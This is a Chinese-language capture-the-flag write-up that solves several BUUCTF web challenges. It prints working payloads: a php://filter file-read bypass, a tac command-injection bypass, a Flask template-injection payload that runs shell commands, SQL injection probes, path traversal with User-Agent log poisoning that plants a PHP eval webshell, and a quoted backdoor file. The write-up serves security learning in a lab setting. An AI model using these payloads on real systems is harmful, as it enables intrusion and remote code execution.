

[buuctf] web区 write up 9
===

## [GXYCTF2019] StrongestMind

### 题解

打开是一个计算题的提交页面, 根据网页内容应该要算 1000 次;



观察一下返回的结构, 写个自动化计算的脚本就行了:

```python
#!usr/bin/env python
# strongest_mind.py

from time import sleep
import requests

count = 0

url = 'http://2f3e742e-8766-4a75-86af-b24b3d2c7ff1.node5.buuoj.cn:81/index.php'
proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}
answer = 0
cookies = {
    'PHPSESSID': 'ca123b507938a0ef5b131e99f518f8e8'
}


def get_params(answer):
    params = [0, '+', 0]
    expression = ''
    data = {
        'answer': str(answer)
    }
    r = requests.post(url, data=data, cookies=cookies, proxies=proxies)
    expression = r.text.split('<br>')[6]
    params = expression.split(' ')
    print(f"[*] Expression: {expression}")
    sleep(0.3)
    if 'bingo' in r.text:
        global count
        count += 1
        print(f"[+] correct! Total correct: {count}")
    else:
        print(f"[-] wrong!")
    return params


def main():
    answer = 0
    while True:
        params = get_params(answer)
        if params[1] == '+':
            answer = int(params[0]) + int(params[2])
        elif params[1] == '-':
            answer = int(params[0]) - int(params[2])
        elif params[1] == '*':
            answer = int(params[0]) * int(params[2])
        elif params[1] == '/':
            answer = int(int(params[0]) / int(params[2]))
        print(f"[*] Calculated answer: {answer}")
        if count >= 1000:
            print("[+] Reached 1000 correct answers, exiting.")
            break


if __name__ == "__main__":
    main()
```


## [WMCTF2020] Make PHP Great Again

### 题解

点进来是一段源码:

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

- `require_once` 将包含其后的文件, 但会检查是否有重复包含, 只会包含一次, 那么这里的解题关键应该在于, 如何 **绕过这个限制**;

> 原理: [require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)

payload:

```
?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

payload 关键逻辑:

- `php://` 伪协议本质上是用流包装器把目标文件的原始字节当作一个**只读流**读出来并做 base64 编码; `require_once` 在包含这个流的时候只会把内容当成编码文本而不是可执行代码 (因为没有 `<?php`);

- 大量重复的 `/proc/self/root` 前缀 (这个前缀实际上指向的就是根目录 `/` ) 是为了逃逸 PHP 正常的路径解析, 这个精心构造的前缀不能被正常解析为 canonical path, 也就是 php 无法对这个复杂的路径去重, 再加上大量复写, 从而让 PHP 无法判断这个路径是否已经被解析过;
 
- `/proc` 是具有**特殊性**的虚拟文件系统, 并不是真正的磁盘路径, 更准确的来说是一个特殊的伪文件系统符号链接, libc 在解析时可能选择 不返回 `/` 而保留 `/proc/self/root/...`, 从而可以复用来形成自引用路径;


解码即可得到 flag;

## [web] EasyBypass

### 题解

开门源码:

```php
<?php

highlight_file(__FILE__);

$comm1 = $_GET['comm1'];
$comm2 = $_GET['comm2'];


if(preg_match("/\'|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $comm1))
    $comm1 = "";
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|\||tail|more|cat|string|bin|less||tac|sh|flag|find|grep|echo|w/is", $comm2))
    $comm2 = "";

$flag = "#flag in /flag";

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";
system($cmd);
?>
```

注意没过滤 `?`, 不过把常用的 bypass 给禁了, 唯独没禁用 `tac`, 这里就需要用到这个指令, 简单来说这个指令就是 `cat` 的倒序输出版(不是完全颠倒, 是从最后一行开始往前输出), 支持 `cat` 类似的 `?` 匹配, 例如

```bash
cat /fla?
tac /f?ag
```

因此这题传入 `tac /f?ag` 即可;

注意到虽然 ban 了 `|`, `&` 但是放了 `;`, ` `, 并且没 ban `"` :

```
?comm1=index.php";tac /fl?g"&comm2=1
```


## [极客大挑战 2020 WEB] Roamphp1-Welcome

### 题解

打开网站提示 `405 Method Not Allowed`, 换 POST, 出现源码:

```php
 <?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
header("HTTP/1.1 405 Method Not Allowed");
exit();
} else {
    
    if (!isset($_POST['roam1']) || !isset($_POST['roam2'])){
        show_source(__FILE__);
    }
    else if ($_POST['roam1'] !== $_POST['roam2'] && sha1($_POST['roam1']) === sha1($_POST['roam2'])){
        phpinfo();  // collect information from phpinfo!
    }
} 
```

哈希强等于, 这里直接传数组进入即可:

```
roam1[]=1&roam2[]=2
```


在 phpinfo 中直接找到 flag;

## [RootersCTF2019] I_<3_Flask

### 题解

打开是一个 flask 网站, F12 找不到明显的突破口, 尝试一下目录爆破, 也找不到泄露; 


再试试**参数爆破**, 这里用到的工具是 arjun;

```bash
pip install arjun
```


爆出参数: `name`; 测试有没有经典的 SSTI

```
/?name={{'7'*7}}
```


确认存在, 接下来就好办了; 调整一下发现没有严格过滤, 最终 payload:

```
/?name={{self.__init__.__globals__.__builtins__['__import__']('os').popen('cat flag.txt').read()}}
```


> 总结一下这题, SSTI 的部分非常简单, 主要收获还是 `arjun` 这个工具;

## [NewStarCTF 2023 公开赛道]medium_sql

### 题解

走进去点两下能发现查询参数是 id (GET);


这个 `unknown's` 有一点可疑, 可能有身份认证? 不过抓包暂时还没看见, 尝试扫目录:


用这个 payload 可以发现此处有单引号闭合的字符注入, WAF 挡了 `or` `union` 等关键词:

```
?id=TMP0919' %23
```

进一步尝试发现可以大小写绕过 (除了 `union`)

```
?id=TMP0919' Order by 5%23
```


此外这个界面不会返回报错信息, 也就是报错注入应该是不可以使用的; 应该用时间盲注就行了, 和之前一道 midsql 的题是一样的, 另外这里应该是用 sqlmap 可以直接自动化扫的, 这里就跳过了;

## [CSCCTF 2019 Final] lofiai

### 日志注入

打开网站有一处参数, `lang=en.php` 和 `lang=jp.php`, 从回显来看, 上方会回显 `lang` 的参数内容, 如果能读, 下面会渲染结果;

初步尝试发现这里可以通过双写出发路径穿越漏洞:

```
?lang=....//....//....//....//....//....//etc/passwd
```

接下来尝试访问日志文件:

> `/var/log/apache2/access.log` 是 tomcat 默认的日志路径, 需要记住;

```
?lang=....//....//....//....//....//....//var/log/apache2/access.log
```


注意以下内容:

```
../../../../../../var/log/apache2/access.log10.244.244.244 - - [24/Sep/2025:07:06:44 +0000] "GET / HTTP/1.1" 200 1342 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:143.0) Gecko/20100101 Firefox/143.0"
10.244.244.244 - - [24/Sep/2025:07:06:44 +0000] "GET /favicon.ico HTTP/1.1" 404 474 "http://7477f485-99b7-4e29-8c93-f979f06e20e0.node5.buuoj.cn:81/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:143.0) Gecko/20100101 Firefox/143.0"
10.244.244.244 - - [24/Sep/2025:07:06:51 +0000] "GET /?lang=en.php HTTP/1.1" 200 1258 "http://7477f485-99b7-4e29-8c93-f979f06e20e0.node5.buuoj.cn:81/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:143.0) Gecko/20100101 Firefox/143.0"
```

这里的 `Mozilla/5.0 ...` 内容就是火狐浏览器的 user-agent:


换句话说, 我们发包的 `User-agent` 会直接打印到日志文件里, 而日志文件可以通过路径穿越访问到, 那么就可以尝试写一个恶意的 `User-agent` 来实现 RCE:

```
User-agent: <?php @eval($_POST[shell])?>
```

写完之后直接用蚁剑连日志界面, 能连上:


### 总结

这道题的攻击链是 **路径穿越 + user-agent 日志注入**, 这是非常真实实战并且经典的攻击链, 值得记录一下;

## [HCTF2018]final Web1

### 题解

首先打开是一个购物平台, 爆一下目录:


`/config` 访问没有内容, `robots.txt` 内容如下:


最后是 `phpinfo` 中的信息, 关键信息如下, 可能存在 SSRF?

```
allow_url_fopen = On
open_basedir 未设置
session.save_path = /var/lib/php/sessions
Configuration File (php.ini) Path = /etc/php/7.2/fpm 
```

到这里实在是没有思路了, 看了一下 wp, 下一步存在后门, 路径为 `config/emmm_version.php` 

> [Github 源码](https://github.com/mo-xiaoxi/CTF_Web_docker/tree/master/HCTF2018/finalweb1/html/config)

~说实话不知道这个后门是怎么发现的~

```php
<?php

$emmm_version="v1006";
$emmm_versiondate="233333";
$emmm_00O0o0OO0="95d4f8af44";
$emmm_weixin="close";
$emmm_apps="close";
$emmm_alifuwu="close";
@eval($_POST[ahahahhahaah]);
?>
```

得到这个后门的话就很简单了, 直接连接 webshell; 


